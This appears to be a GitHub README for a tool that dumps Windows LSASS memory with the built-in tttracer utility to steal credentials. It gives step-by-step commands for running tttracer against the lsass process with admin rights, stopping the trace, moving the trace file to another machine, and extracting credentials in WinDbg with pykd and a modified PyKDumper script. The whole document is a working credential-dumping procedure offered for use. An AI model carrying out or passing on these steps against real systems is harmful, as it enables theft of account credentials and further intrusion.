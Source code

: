 # PyKDumper3_tttracer
PyKDumper3 modified for TTTracer credentials dumpping

## Background
Found this twitter post: https://twitter.com/n_o_t_h_a_n_k_s/status/1559620227586875392

It is an interesting built-in method to dump lsass memory.

## Tools
- Windows machine

- Windbg Preview Without Microsoft Store:
  1. Paste the Microsoft Store windbg link into https://store.rg-adguard.net/ to receive a download link
  2. Wget the appx file `wget -O windbg.appx https://link`
  3. Double click to install it

Ref: https://digitalitskills.com/windbg-preview-download-and-install-without-ms-store/

- pykd
https://githomelab.ru/pykd/pykd-ext/-/wikis/Downloads

- PyKDumper3.py
https://github.com/uf0o/PykDumper/blob/master/PyKDumper/PyKDumper3.py

## Analysis

### 1. Create dump file (as admin privilege)
```
Powershell session 1: 
tttracer -dumpfull -attach (Get-Process lsass | Select -expand id)`
```

Wait 3-6s please...

```
Powershell session 2: 
tttracer -stop (Get-Process lsass | Select -expand id)
```

### 2. Copy the .run file to your machine with windbg

### 3. Prepare pykd
Download pykd and copy pykd.dll to `%LocalAppData%\Dbg\EngineExtensions`

### 4. Prepare PyKDumper3_tttracer.py

### 5. Read lsass dump
windbg load .run file

windbg cmd:
```
.load pykd
!py path_to_script\PyKDumper3_tttracer.py
```
